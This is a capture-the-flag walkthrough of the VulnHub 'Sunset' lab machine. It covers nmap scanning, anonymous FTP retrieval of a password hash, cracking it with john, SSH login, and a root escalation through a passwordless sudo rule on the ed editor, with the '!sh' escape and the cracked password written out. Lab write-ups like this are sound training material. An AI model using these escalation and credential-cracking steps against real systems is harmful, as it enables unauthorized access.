

# Sunset — VulnHub Walkthrough

> **Machine:** [Sunset (VulnHub)](https://www.vulnhub.com/entry/sunset-1,339/)
> **Author:** Whitecr0wz
> **Difficulty:** medium
> **Tested on:** Linux - 13/09/2025

---


Completed the **Sunset** vulnerable machine. In this machine, our target is to find the flags and access the root. So, let’s get started.


---

## Table of contents

1. Environment
2. Summary of steps
3. Detailed walkthrough

   * 3.1 Scanning
   * 3.2 Enumeration
   * 3.3 Exploitation & Privilege escalation
4. Screenshots (findings)
5. Proof of access
6. Appendix: commands & tools
7. Responsible disclosure

---

## 1) Environment

* VM: VirtualBox
* Attacker OS: Kali Linux
* Target IP used in this writeup: 192.168.29.242
* Tools used: `netdiscover`, `nmap`.

---

## 2) Summary of steps

1. Execute netdiscover command to identify the host ip.
2. Full TCP port scan with `nmap` to identify services.
3. Found anonymous login allowed on ftp.
4. Got the hashed credentials from ftp login.
5. Local enumeration (`sudo -l`, SUID/cron checks, file permissions) revealed a privilege escalation path to root.

---

## 3) Detailed walkthrough

### 3.1 Initial enumeration

A short ARP discovery confirmed the target host on the local network.

> See screenshot:  (ARP scan output).

**Port scan (command used):**

```bash
nmap -A 192.168.29.242
```

Important open services observed from the scan:

* `21/tcp` — FTP (pyftpdlib 1.5.5) — **anonymous FTP login allowed**
* `22/tcp` — SSH (OpenSSH 7.9p1)

> See screenshot:  (nmap output showing FTP/SSH and anonymous FTP file listing).

### 3.2 Retrieving useful files from FTP

Because anonymous FTP was allowed, I listed and downloaded files from the FTP root. The directory listing showed a file named `backup` (owned by root) which I downloaded for inspection.

> See screenshot (partial FTP listing included in nmap output): .

After saving `backup` locally, I inspected it and found a password hash (sha512crypt) for the `sunset` user. I moved that hash into a wordlist file for cracking.

### 3.3 Cracking credentials & gaining a shell

I used `john` (with default wordlists/rules) to crack the discovered SHA512 password hash.

```bash
john crack
```

`john` successfully cracked the password: **cheer14**.

> See screenshot:  (john output showing cracked password).

With the cracked credentials I SSH'd into the machine:

```bash
ssh sunset@192.168.29.242
# password: cheer14
```

This gave an interactive shell as user `sunset`.

> See screenshot:  (VM / login prompt and later shell activity).

### 3.4 Privilege escalation

On the obtained low-priv shell I ran standard enumeration commands. `sudo -l` revealed that the `sunset` user can run `/usr/bin/ed` as root **without a password**.

```bash
sudo -l
# (root) NOPASSWD: /usr/bin/ed
```

> See screenshot:  (sudo -l output snippet).

`ed` is an editor that can be abused to spawn a root shell when executed with elevated privileges. Using a known technique with `ed` I spawned a root shell and read the root flag.

**Sanitized exploitation example (do not run on systems you do not own):**

```bash
# From sunset user's shell
sudo /usr/bin/ed -
# within ed, invoke shell
!sh
# now running a shell as root
whoami  # -> root
cat /root/root.txt
```

---

## 4) Screenshots (findings)

1.  — sunset machine.
2.  — netdiscover scanning.
3.  — important nmap results (open ports/services).
4.  — ftp login.
5.  — hashed credential file.
6.  — crack hashed credential.
7.  — ssh login.
8.  — sudoers permission.
9.  — gaining root privilege.

---

## 5) Proof of access

I captured the user and root flags during the assessment.

```bash
# User flag
cat /home/sunset/user.txt

# Root flag
cat /root/flag.txt
```

---

## 6) Appendix: commands & tools

* `sudo netdiscover`
* `nmap 192.168.29.242 -A`
* `ftp anonymous@192.168.29.242`
* `john crack`
* `ssh sunset@192.168.29.242`
* `sudo -l`
* `sudo usr/bin/ed`

---

## 7) Responsible disclosure

This walkthrough is for educational purposes. Do not use these techniques on systems you do not own or have explicit permission to test. If you believe you have discovered a vulnerability on a real service, follow responsible disclosure procedures with the service owner.
